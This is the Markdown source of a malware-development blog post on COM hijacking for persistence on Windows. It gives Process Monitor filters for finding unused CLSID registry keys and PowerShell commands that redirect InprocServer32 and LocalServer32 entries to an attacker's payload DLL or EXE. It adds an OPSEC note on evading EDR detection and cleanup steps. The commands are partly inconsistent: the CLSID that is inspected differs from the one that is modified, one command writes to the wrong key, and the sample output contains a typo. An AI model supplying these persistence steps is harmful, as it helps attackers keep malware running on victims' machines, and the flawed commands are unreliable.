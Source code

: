```yaml
---
layout: post
title: COM Hijacking
date: 2023-12-22
categories: [Malware Development, Persistence]
tags: [persistence]     
---
```


> COM is a system within Windows to enable interaction between software components through the operating system. 
  References to various COM objects are stored in the Registry

- [MITRE](https://attack.mitre.org/techniques/T1546/015/)

We can establish persistence through COM by hijacking a COM object. When the tampered object is referenced, our payload will be executed in place of the original software component. Hijacking COM objects that are in use can lead to broken applications, so we should look for applications that try to reference broken/unused keys.

To achieve this we can use Process Monitor from the SysInternal suite. Apply these filters

- Operation -> is -> RegOpenKey
    
>   RegOpenKey opens the specified registry key. We use this filter because COM objects are stored in the registry

- Result -> is -> NAME NOT FOUND

>   We use this filter because we don't want to hijack COM objects that are in use

- Path -> ends with -> InprocServer32

>   This registry contains a 32-bit in-process server. In this context, that means a DLL that provides services to other applications

- Path -> ends with -> LocalServer32

>   This registry contains the full path to a COM server application. This means that we can specify the path to an executable which we want executed

Now we will be able to see every process activity that meets this critera. To speed things up, we can open random applications (like Access, Outlook and so on). We should look for an object that is not referenced very frequently, as executing the payload every second is not a good idea.

> OPSEC WARNING: EDR solutions have rules that can detect this technique. For [example](https://www.elastic.co/guide/en/security/8.11/component-object-model-hijacking.html)
{: .prompt-warning }

#### Example 1 - InprocServer32

Let's take for example this COM object, with the CLSID `{4590F811-1D3A-11D0-891F-00AA004B2E24}` (The CLSID is an unique identifier for COM class objects)

```
HKLM:\Software\Classes\CLSID\{4590F811-1D3A-11D0-891F-00AA004B2E24}\InprocServer32
```

Let's check it's contents

```
Get-Item -Path "HKLM:\Software\Classes\CLSID\{4590F811-1D3A-11D0-891F-00AA004B2E24}\InprocServer32"

Name                           Property
----                           --------
InprocServer32                 (default)      : C:\Windows\System32\thumbcache.dll
                               ThreadingModel : Apartment
```

If we can change the value of `(default)` from `C:\Windows\System32\thumbcache.dll` to our payload, persistence is succesfully established.

```powershell
New-Item -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}" -Name "InprocServer32" -Value "C:\Path\To\payload.dll"
```
We also need to change the threading model to support both single threaded and multi-threaded mode.

```powershell
New-ItemProperty -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32" -Name "ThreadingModel" -Value "Both"
```

After we are done, we should delete the registry entry and DLL.

#### Example 2 - LocalServer32

We will consider an object with the same CLSID

```
HKLM:\Software\Classes\CLSID\{4590F811-1D3A-11D0-891F-00AA004B2E24}\LocalServer32
```

Now the contents will be something to the likes of

```
Get-Item -Path "HKLM:\Software\Classes\CLSID\{4590F811-1D3A-11D0-891F-00AA004B2E24}\LocalServer32"

Name                           Property
----                           --------
Localerver32                   (default)      : C:\Program Files\Microsoft Office\Office14\EXCEL.EXE
                               ServerExecutable : "C:\Program Files\Microsoft Office\Office14\EXCEL.EXE"
```

In this case we have to change the value of `(default)` and `ServerExecutable` to our payload, in PE format.

```powershell
New-Item -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}" -Name "LocalServer32" -Value "C:\Path\To\payload.exe"
```

```powershell
New-ItemProperty -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32" -Name "ServerExecutable" -Value "C:\Path\To\payload.exe"
```

To clean up, delete the executable and the registry entry.
